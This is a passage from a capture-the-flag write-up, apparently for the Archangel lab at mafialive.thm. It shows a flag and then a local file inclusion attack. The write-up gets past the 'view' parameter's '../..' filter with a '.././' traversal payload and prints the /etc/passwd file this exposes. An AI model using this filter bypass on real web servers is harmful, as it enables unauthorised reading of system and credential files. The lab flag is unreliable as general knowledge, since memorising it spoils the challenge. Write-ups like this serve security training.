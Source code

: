 ```html
            }
        }
        ?>
    </div>
</body>

</html>
```

We find a flag

```
thm{explo1t1ng_lf1}
```

We see that the `view` parameter must contains

```
/var/www/html/development_testing
```

And not

```
../..
```

We can simply use 

```
.././../.
```

We can retrieve `/etc/passwd` with 

```
http://mafialive.thm/test.php?view=/var/www/html/development_testing/.././.././.././.././etc/passwd
```

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
uuidd:x:105:109::/run/uuidd:/usr/sbin/nologin
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
archangel:x:1001:1001:Archangel,,,:/home/archangel:/bin/bash
```
